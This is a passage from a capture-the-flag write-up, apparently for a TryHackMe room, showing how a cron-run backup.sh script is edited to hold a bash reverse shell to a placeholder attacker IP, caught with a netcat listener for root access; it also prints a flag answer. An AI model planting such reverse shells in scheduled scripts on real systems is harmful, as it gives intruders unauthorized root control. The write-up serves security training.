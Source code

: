 ### Question 2: What is the content of the flag5.txt file?

`THM-383000283` - If we `ls` we see we have a `backup.sh` file, which that is also in our `crontab`. We can look at the contents on the backup.sh file, also make a backup of it as well with `cp backup.sh backup.sh.bak`. Looking at the original with ls -l, we notice it is not executable, so let's fix that with `chmod +x backup.sh`. We can edit the .sh file and add in a reverse shell command.

`bash -i >& /dev/tcp/<OUR_MACHINE_IP>/<PORT> 0>&1`

![](<../../../.gitbook/assets/image (45).png>)

In another terminal we can start our netcat listener

![](<../../../.gitbook/assets/image (67).png>)

Now we wait for the crontab to run. After a minute or two, we should receive our root shell.

![](<../../../.gitbook/assets/image (387).png>)

![](<../../../.gitbook/assets/image (371).png>)

### Question 3: What is Matt's password?

